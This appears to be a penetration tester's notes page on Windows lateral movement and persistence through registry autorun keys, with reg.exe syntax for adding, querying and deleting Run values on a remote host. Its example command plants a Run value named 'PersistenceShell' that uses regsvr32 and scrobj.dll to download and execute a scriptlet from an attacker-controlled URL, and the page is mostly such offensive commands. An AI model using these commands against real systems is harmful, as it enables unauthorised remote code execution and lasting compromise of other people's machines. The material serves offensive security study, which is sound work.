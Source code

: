 # Living off the Land

Search Tag(s): #lateral-movement #registry #windows

## These are the following registry path to create registry values to spawn a callback shell

TODO: Fill the missing info

```
HKLM\Software\Microsoft\Windows\CurrentVersion\Run

HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce

HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run

HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon
```

## Manual

### Registry key syntax

```
C:\> reg.exe add \\<IP>\hklm\software\microsoft\windows\currentversion\run /v <registry_value> /t reg_sz /d <commands>

C:\> reg.exe query \\<IP>\hklm\software\microsoft\windows\currentversion\run

C:\> reg.exe delete \\<IP>\hklm\software\microsoft\windows\currentversion\run /v <registry_value> /f
```

### Here's the following example

```
C:\> reg.exe add \\<IP>\HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v PersistenceShell /t REG_SZ /d "regsvr32 /s /n /u /i:http://<attacker_IP>/shell.sct scrobj.dll"

C:\> reg.exe query \\<IP>\HKLM\Software\Microsoft\Windows\CurrentVersion\Run

C:\> reg.exe delete \\<IP>\HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v PersistenceShell /f
```

---
## References

### Backlinks

- [[Registry Hive References]]

### LOFLCAB

- [LOFLCAB: `reg.exe`](https://lofl-project.github.io/loflcab/Binaries/reg/)

### evilcomrade

- [evilcomrade: Windows Lateral Movement Fu](https://1evilcomrade.blogspot.com/2017/11/windows-lateral-movement-fu.html)